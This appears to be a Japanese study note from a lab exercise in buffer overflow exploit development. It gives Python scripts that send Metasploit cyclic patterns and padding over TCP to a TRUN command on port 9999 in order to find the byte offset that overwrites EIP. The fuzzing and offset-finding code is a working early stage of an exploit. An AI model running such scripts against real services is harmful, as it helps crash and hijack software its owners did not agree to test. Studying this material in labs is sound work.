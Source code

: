 
### EIPが書き換えられるバイト位置の特定

`pattern_create`で生成したバイト文字を使って再度実行する。
```python
import socket
import sys
import time
import subprocess

buffer = subprocess.check_output(["/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000"],shell=True)

try:  
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(5)
  s.connect(('192.168.40.47',9999))
  s.send((b'TRUN /.:/' + buffer))  
  s.close()  

except Exception as e:
  print(e)  
  sys.exit()
```
![[Pasted image 20240726005330.png]]

クラッシュ後のEIPは`386F4337`になった。
これを`pattern_offset.rb`で何バイト目なのかを検索する。
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 386F4337
```
![[Pasted image 20240726010436.png]]
結果から2003バイト目以降がEIPの値であるとわかった。
（2004~2007バイト）


あっているか確認するために Aを2003バイト分、Bを4バイト分送信してみる。
```python
import socket
import sys

buffer = b"A"*2003
buffer += b"BBBB"

try:  
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(5)
  s.connect(('192.168.40.47',9999))
  s.send((b'TRUN /.:/' + buffer))  
  s.close()  

except Exception as e:
  print(e)  
  sys.exit()
```
